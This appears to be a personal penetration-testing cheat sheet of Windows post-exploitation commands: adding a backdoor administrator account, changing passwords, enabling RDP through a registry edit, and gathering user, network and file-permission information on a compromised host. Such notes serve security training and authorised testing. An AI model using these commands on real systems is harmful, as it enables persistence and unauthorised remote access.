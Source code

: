 # Post Exploitation Cheat Sheet
This module will contain all Windows/DOS post exploitation items that I use on a daily basis.
## Current User Info
__1. Who am I, exactly?__
* `echo %username%`
* `whoami`
## Add Admin User
__1. Add the User:__
* `net user /add [username] [password]`

__2. Add the usedr to the Admin Group:__
* `net localgroup administrators [username] /add`

__3. Change a user's password__
* `net user USERNAME NEWPASS`

## Enable RDP (XP+)
This command will enable RDP on a server which the `reg` command is installed. You must have System access to do so, and RDP must be installed.

__1. To enable RDP (must be Windows XP or above as the `reg` command will be used.)__

* `reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f`

## System / Network Info
These commands will return any system or network information and should be done during post exploitation.
* `netstat -ano` OR JUST `netstat -an`
* `systeminfo` (XP+)

## File System Info
These commands will return information about the  file system of the target Windows(R) server.

__1. To display permission/ownership information of a file or directory:__
* `icacls "C:\Documents and Settings\Administrator\Desktop\proof.txt`
* `dir /Q`

## Command Execution
These commands will execute commands or binaries on the compromised Windows(R) System.

__1. To run a binary on the FS of the compromised system from os-shell> in nmap:__

`start /max /d"C:\Program files\foo\" ba.exe -somearguments`
